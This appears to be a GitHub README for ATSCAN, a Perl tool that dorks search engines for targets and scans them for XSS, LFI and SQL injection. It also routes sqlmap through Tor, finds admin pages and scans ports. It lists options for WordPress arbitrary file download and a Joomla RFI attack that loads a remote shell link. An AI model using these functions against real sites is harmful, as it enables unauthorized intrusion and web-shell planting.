 <html>
<body>
<h1 align="center">ATSCAN</h1>
<p align="center"> <b>Search / Site / Server Scanner </b></p>
<center><img src="http://i.imgur.com/jUt3Gn7.png" /></center>
<table border="0" cellpadding="2" cellspacing="2" width="100%">
  <tr>
    <td align="center"><b>Alisam Technology is not responsible for any misuse, damage caused by this script or attacking targets without prior mutual consent!<b></td>
  </tr>
</table>
<table border="0" cellpadding="0" cellspacing="2" width="100%">
  <tr>
    <td width="100px" class="main2"><b>AUTHOR:</b></td><td width="760px">Alisam@Technology</td>
  </tr>
  <tr>
    <td width="100px" class="main2"><b>FACE:</b></td><td>facebook.com/Forces.des.tempetes.marocaines </td>
  </tr>
  <tr>
    <td width="100px" class="main2"><b>YOUTUBE:</b></td><td>youtube.com/c/AlisamTechnology</td>
  </tr>
  <tr>
    <td width="100px" class="main2"><b>WITTER:</b></td><td>twitter.com/AlisamTechno</td>
  </tr>
  <tr>
    <td width="100px" class="main2"><b>PLUS:</b></td><td>plus.google.com/+AlisamTechnology</td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3"><b>Description:</b></td>
  </tr>
  <tr>
    <td class="main" width="800px">ATSCAN <br /> SEARCH engine <br />XSS scanner. <br /> Sqlmap.<br /> 
        LFI scanner.<br /> Filter wordpress and Joomla sites in the server. <br />Find Admin page.<br /> Decode / Encode MD5 + Base64.
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3" width="800px"> <b>Libreries to install:</b></td>
  </tr>
  <tr>
    <td class="main">
      ap-get install libxml-simple-perl <br/>
      aptitude install libio-socket-ssl-perl <br/>
      aptitude install libcrypt-ssleay-perl <br/>
      NOTE: Works in linux platforms. Best Run on Ubuntu 14.04, Kali Linux 2.0, Arch Linux, Fedora Linux, Centos | if you use a windows you can download manualy.
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3" width="800px"><b>Download & Executution:</b></td>
  </tr>
  <tr>
    <td class="main">
      git clone https://github.com/AlisamTechnology/ATSCAN <br/>
      cd ATSCAN <br/>
      chmod +x ATSCAN <br/>
      ./ATSCAN <br/>
      OR <br/>
      $chmod +x atscan.pl  <br/>
      Execute: perl ./atscan.pl <br/>
      Execute: perl ./atscan.pl --help
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3"><b>Screenshots:</b></td>
  </tr>
  <tr>
    <td align="center">
    <img src="http://i.imgur.com/J0fM1PB.jpg" /><br/><br/>
    <img src="http://i.imgur.com/JGBKRGw.jpg" /><br/><br/>
    <img src="http://i.imgur.com/HxdjrM8.jpg" /><br/><br/>
    <img src="http://i.imgur.com/yZOSiei.jpg" /><br/><br/>
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3" width="80px"><b>Help:</b></td>
  </tr>
  <tr>
    <td class="main"><table border="0" cellpadding="2" cellspacing="5" width="100%">
      <tr>
        <td width="200px" class="main">--tor</td>
        <td class="main">tor proxy [DEFAULT:socks://localhost:9050] Change if needed!</td>
      </tr>
      <tr>
         <td width="200px" class="main">--dork</td>
        <td class="main">Search engine</td>
      </tr>
      <tr>
        <td width="200px" class="main">--mp</td>
        <td class="main">set number of page results to scan</td>
      </tr>
      <tr>
        <td width="200px" class="main">--xss</td>
        <td class="main">Xss scan</td>
      </tr>
      <tr>
        <td width="200px" class="main">--lfi</td>
        <td class="main">lfi scan</td>
      </tr>
      <tr>
        <td width="200px" class="main">-t</td>
        <td class="main">Target</td>
      </tr>
      <tr>
        <td width="200px" class="main">-l</td>
        <td class="main">List name</td>
      </tr>
      <tr>
        <td width="200px" class="main">--exp</td>
        <td class="main">Set exploit</td>
      </tr>
      <tr>
        <td width="200px" class="main">--valid</td>
        <td class="main">Text for validate results</td>
      </tr>
      <tr>
        <td width="200px" class="main">--sqlmap</td>
        <td class="main">Sqlmaping xss results</td>
      </tr>
      <tr>
        <td width="200px" class="main">--sqlmaptor</td>
        <td class="main">Sqlmaping xss results using tor proxy</td>
      </tr>
      <tr>
        <td width="200px" class="main">--lfi</td>
        <td class="main">local file inclusion</td>
      </tr>
      <tr>
        <td width="200px" class="main">--joomrfi</td>
        <td class="main">get joomla sites with rfi in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--shell</td>
        <td class="main">shell link [Ex: http://www.site.com/shell.txt]</td>
      </tr>
      <tr>
        <td width="200px" class="main">--wpadf</td>
        <td class="main">get wordpress sites with arbitery file download in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--admin</td>
        <td class="main">get site admin page</td>
      </tr>
      <tr>
        <td width="200px" class="main">--shost</td>
        <td class="main">get site subdomains</td>
      </tr>
      <tr>
        <td width="200px" class="main">--ports</td>
        <td class="main">scan server ports</td>
      </tr>
      <tr>
        <td width="200px" class="main">--start</td>
        <td class="main">start scan port</td>
      </tr>
      <tr>
        <td width="200px" class="main">--end</td>
        <td class="main">end scan port</td>
      </tr>
      <tr>
        <td width="200px" class="main">--tcp</td>
        <td class="main">tcp ports</td>
      </tr>
      <tr>
        <td width="200px" class="main">--udp</td>
        <td class="main">udp ports</td>
      </tr>
      <tr>
        <td width="200px" class="main">--all</td>
        <td class="main">complete mode</td>
      </tr>
      <tr>
        <td width="200px" class="main">--basic</td>
        <td class="main">basic mode</td>
      </tr>
      <tr>
        <td width="200px" class="main">--select</td>
        <td class="main">Select mode you can set rang of ports</td>
      </tr>
      <tr>
        <td width="200px" class="main">--sites</td>
        <td class="main">sites in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--wp</td>
        <td class="main">wordpress sites in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--joom</td>
        <td class="main">joomla sites in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--upload</td>
        <td class="main">get sites with upload files in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--zip</td>
        <td class="main">get sites with zip files in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--st</td>
        <td class="main">string</td>
      </tr>
      <tr>
        <td width="200px" class="main">--md5</td>
        <td class="main">convert to md5</td>
      </tr>
      <tr>
        <td width="200px" class="main">--encode64</td>
        <td class="main">encode base64 string</td>
      </tr>
      <tr>
        <td width="200px" class="main">--decode64</td>
        <td class="main">decode base64 string</td>
      </tr>
      <tr>
        <td width="200px" class="main">--isup</td>
        <td class="main">check http status 200</td>
      </tr>
      <tr>
        <td width="200px" class="main">--httpd</td>
        <td class="main">print site httpd version</td>
      </tr>
    </table></td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3"><b>Examples:</b></td>
  </tr>
  <tr>
    <td class="main">
    <b>Simple search: </b><br/>
    --dork DORK --mp [number of page results to scan]<br/>
    --dork [DORK1,DORK2,DORK3..] --mp [number of page results to scan]<br/>
    --dork [DORK.txt] --mp [number of page results to scan from list]<br/><br/>
    <b>Subscan from Serach Engine: </b><br/>
    Xss: --dork DORK --mp 1 --xss<br/>
    Xss: --dork DORKS.TXT --mp 1 --xss <br/>
    Lfi: --dork DORK --mp 1 --lfi<br/>
    Search + Command: --dork DORK --mp VALUE --command 'curl -v' --TARGET<br/><br/>
    <b>Validation: </b><br/>
    Xss: --dork DORK --mp 1 --xss --valid TEXT <br/>
    Lfi: --dork DORK --mp 1 --lfi --valid TEXT <br/>
    Xss: --dork DORK --mp 1 --xss --isup <br/>
    Lfi: --dork DORK --mp 1 --xss --isup <br/>
    Xss: --dork DORKS.TXT --mp 1 --xss --valid TEXT <br/>
    Lfi: --dork DORKS.TXT --mp 1 --lfi --valid TEXT <br/>
    Xss: --dork DORKS.TXT --mp 1 --xss --isup <br/>
    Lfi: --dork DORKS.TXT --mp 1 --xss --isup <br/><br/>
    <b>Use List / Target: </b><br/>
    Xss: -t TARGET --xss <br/>
    Lfi: -l TARGET --lfi <br/>
    Xss + Validation: -t TARGET --xss --valid TEXT <br/>
    Lfi + Validation: -t TARGET --lfi --valid TEXT  <br/>
    Xss + Validation: -l list.txt --xss --isup <br/>
    Lfi + Validation: -l list.txt --lfi --isup  <br/>
    Find admin page: -t TARGET --admin  <br/>
    Find subdomains: -t TARGET --shost  <br/><br/>
    
    <b>Server: </b>  <br/>
    Get Server sites: -t IP --mp [VALUE] --sites   <br/>
    Get Server sites: -t IP.txt --mp [VALUE] --sites   <br/>
    Get Server wordpress sites: -t IP --mp [VALUE] --wp   <br/>
    Get Server joomla sites: -t IP --mp [VALUE] --joom   <br/>
    Get Server upload sites: -t IP --mp [VALUE] --upload   <br/>
    Get Server zip sites files: -t IP --mp [VALUE] --zip   <br/>
    WP Arbitry File Download: -t IP --mp [VALUE] --wpadf   <br/>
    Joomla RFI: -t IP --mp <1> --joomfri --shell SHELL LINK   <br/>
    Scan basic tcp (quick): -t IP --ports --basic --tcp   <br/>
    Scan basic udp basic (quick): -t IP --ports --basic --udp   <br/>
    Scan basic udp+tcp: -t IP --ports --basic --udp --tcp   <br/>
    Scan complete tcp: -t IP --ports --all --tcp   <br/>
    Scan complete udp: -t IP --ports --all --udp   <br/>
    Scan complete tcp+udp: -t IP --ports --all --udp --tcp   <br/>
    Scan rang tcp: -t IP --ports --select --start --end --tcp   <br/>
    Scan rang udp: -t IP --ports --select --start --end --udp   <br/>
    Scan rang udp + tcp: -t IP --ports --select --start VALUE --end VALUE --udp --tcp <br/><br/>
    <b>Encode / Decode:  </b> <br/>
    Generate MD5: -st STRING --md5 <br/>
    Encode base64: -st STRING --encode64  <br/> 
    Decode base64: -st STRING --decode64 
    </td>
  </tr>
</table>  
</body>
</html>
